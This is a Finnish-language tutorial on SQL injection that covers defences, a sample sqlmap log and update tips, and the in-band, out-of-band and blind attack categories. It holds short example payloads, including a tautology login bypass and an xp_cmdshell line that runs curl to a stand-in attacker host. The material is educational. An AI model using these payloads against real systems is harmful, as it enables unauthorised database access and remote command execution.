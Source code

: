 # SQL injektio

SQL-injektio (SQL injection) on tietoturvahyökkäys, jossa hyökkääjä voi manipuloida verkkosovelluksen tai tietokannan SQL-kyselyitä. Tämä tapahtuu syöttämällä haitallista SQL-koodia sovellukseen, joka ei ole suojattu asianmukaisesti. SQL-injektio voi mahdollistaa hyökkääjän suorittaa tietokannan komentoja, kuten lukemaan, muokkaamaan tai poistamaan tietoja, jopa hankkimaan järjestelmänvalvojan oikeudet.

SQL-injektiohyökkäyksen perusidea on hyödyntää puutteellisesti suodatettuja syötteitä (kuten käyttäjän syöttämiä lomaketietoja tai URL-parametreja) ja liittää niihin haitallista SQL-koodia. Jos sovellus ei tarkista tai puhdista syötteitä kunnolla, hyökkääjä voi lisätä oman SQL-lausekkeen alkuperäiseen kyselyyn, joka suoritetaan tietokannassa.


Oletetaan, että sinulla on verkkosivusto/palvelin/tietokanta, jossa käyttäjä voi kirjautua sisään syöttämällä käyttäjätunnuksen ja salasanan. Jos kirjautumislomakkeen tiedot liitetään suoraan SQL-kyselyyn ilman oikeaa suodatusta, hyökkääjä voi syöttää seuraavanlaisen syötteen: `root` ja ei ole salasanaa, tai oletuksena käyttäjätunnus ja salasana OVAT `root` tai joko `admin`.


## ehkäiseminen ja turvallisuuden kannalta

SQL-injektion välttäminen on olennainen osa verkkosovellusten ja tietokantojen suojaamista. 


- Tietokannan suojaus: Tietokannassa, kuten MariaDB/MySQL:ssä, tulisi käyttää vahvoja ja pitkiä salasanoja, jotka estävät hakkereita pääsemästä käsiksi järjestelmään. Vahva salasana sisältää suuria ja pieniä kirjaimia, numeroita ja erikoismerkkejä.
  
- Ylläpitäjien hallinta: Mikäli tietokannassa on useita ylläpitäjiä, on suositeltavaa luoda vähintään kaksi tai useampi ylläpitäjän tili, jotka jakavat vastuuta ja rajoittavat yksittäisen käyttäjän pääsyä. Näin varmistetaan, että kaikki oikeudet eivät ole yhden henkilön käsissä.

- Syötteiden validointi: Käyttäjän syötteitä ei koskaan tulisi liittää suoraan SQL-kyselyihin, sillä se voi mahdollistaa SQL-injektion. Sen sijaan tulisi käyttää valmisteltuja kyselyitä (prepared statements), joissa käyttäjän syöte käsitellään turvallisesti erillään SQL-komennosta.

- Päivitykset ja haavoittuvuuksien hallinta: Sovellukset ja käytettävät ohjelmistot, kuten tietokannan hallintajärjestelmät (esim. MySQL, PostgreSQL), tulisi päivittää säännöllisesti, jotta tunnetut haavoittuvuudet saadaan korjattua. Tällöin voidaan estää hyökkäyksiä, jotka voisivat käyttää hyväkseen ohjelmistojen vanhentuneita versioita.

<hr>

## kali linux ja sqlmap

Sekä pieni huomiona, tätä sqlmap - komentoa jos toistaa useammin niin jossakin tilanteessa tulee pieni katkosta eli vähä kuin aikaleima. Jossain tilantteessa tällainen saattaa tulla, jossa tämä tarkoittaa sqlmap-työkalu versio on vanhentunut. Voi vaikuttaa, että sqlmap ei toimi oikein, ja ei ehkä pysty käyttämään uusia ominaisuuksia tai korjauksia, joita on lisätty työkaluun alunperin verrattuna uudenmpiin versioihin. 

```
[*] starting @ 18:39:30 /2024-12-08/

[18:39:30] [INFO] resuming back-end DBMS 'microsoft sql server' 
[18:39:55] [CRITICAL] host 'testasp.vulnweb.com' does not exist
[18:39:55] [WARNING] your sqlmap version is outdated

[*] ending @ 18:39:55 /2024-12-08/
```

Vanha sqlmap-versio ei välttämättä tue uusimpia tekniikoita, joita tarvitaan nykyään verkkosivustojen SQL-injektiohaavoittuvuuksien löytämiseen, etenkin jos verkkosivustolla on lisäsuojauksia. Tämä voi estää sinua suorittamasta SQL-injektiohyökkäystä onnistuneesti. Lisäksi, jos tietokannan rakenteessa on muutoksia tai uusia tietoturvatoimenpiteitä, vanha versio saattaa olla kykenemätön käsittelemään niitä.

Päivittäminen menee komennolla `sqlmap --update` ja jos ei tiedä mitä komentoa ja miten päivittää tarkista apua ensin `sqlmap -h` ja tämä on kali linux alla tmä työkalu, niin on hyvä tarvittaessa päivittää oman kali linux ohjelman `sudo apt update` tämä päivittää versiot, mutta jos päivittää `sudo apt upgrade` niin se syö muisti ja vie resurssien muistia. 

<hr>

# SQL Injection kategoriat:

Kolmen typpistä injektio ovat; 

- In-band SQL injection; Hyökkääjä suorittaa SQL-kyselyt samalla yhteyden kautta ja saa vastauksia heti. Toisin sanoen, kaikki tiedot saadaan samassa "kanavassa" hyökkäyksen aikana. Tässä kategorian sisällä voidaan puhua esimerkiksi error-based SQL injection (virheilmoitusten kautta) tai union-based SQL injection (tietojen yhdistämisen kautta). Hyökkääjä saa välittömästi palautetta kyselyjen tuloksista ja voi käyttää tätä tietoa hyväkseen. Esim. `' OR 'a'='a`
  (lyhyesti sanottuna;  Hyökkääjä saa suoraa palautetta samassa yhteydessä kyselyistä.)

- Out-of-band SQL injection; hyökkääjä ei saa palautetta samassa yhteydessä kuin kyselyä suoritetaan. Sen sijaan tietoja voidaan siirtää jollain muulla tavalla, esimerkiksi erillisten kanavien (kuten verkkopyynnöt) kautta. Tämä voi tapahtua esimerkiksi, jos SQL-kysely suorittaa toimenpiteitä, jotka laukaisevat ulkoisen tiedonsiirron (esim. tietojen lähettäminen hyökkääjän palvelimelle). Out-of-band-injektiot eivät ole yhtä yleisiä, koska ne edellyttävät, että tietokannan on tuettava ulkoisten yhteyksien tekemistä, mutta ne voivat olla tehokkaita. Esim. `'; EXEC xp_cmdshell('curl http://evil.com/attack') --
   (lyhyesti sanottuna;  Hyökkääjä saa tietoa muilla kanavilla, kuten verkkopyynnöillä.)

- blind / inferential SQL injection; Blind SQL-injektiossa ei saada suoraa palautetta SQL-kyselyistä, mutta hyökkääjä voi päätellä tietoja epäsuorasti, esimerkiksi kokeilemalla erilaisia ehtoja ja katsomalla, miten sivusto reagoi. Tässä ei ole virheilmoituksia eikä suoraa tietoa, mutta silti hyökkääjä voi arvaamalla selvittää tietokannan rakennetta ja tietoja. Blind SQL Injection voidaan jakaa edelleen kahteen tyyppiin:
  
 -  boolean-based Blind SQL injection: Hyökkääjä yrittää muuttaa SQL-kyselyä siten, että kyselyn tulos on joko "totta" tai "epätotta", ja seuraamalla käyttäjän reaktiota (esim. sivun lataus tai virhe) voi päätellä, onko tietty ehto täsmällinen.
 -  Time-based Blind SQL Injection: Tässä hyökkääjä pakottaa tietokannan odottamaan tietyn ajan ennen vastauksen lähettämistä, ja aikaa mittaamalla voidaan päätellä, onko ehto ollut totta vai epätotta.

Esim. `' AND 1=1 --` - sivu latautuu normaalisti tarkoittaa ehto 1=1. Mutta jos esim. `' AND 1=2 --` ettei sivu lataudu. Näin hän voi päätellä, että ehto 1=2 on epätosi.

   (lyhyesti sanottuna; Hyökkääjä ei saa suoraa palautetta, vaan päättelee tietoja epäsuorasti käyttäen sivuston käyttäytymistä (boolean- tai time-based).)

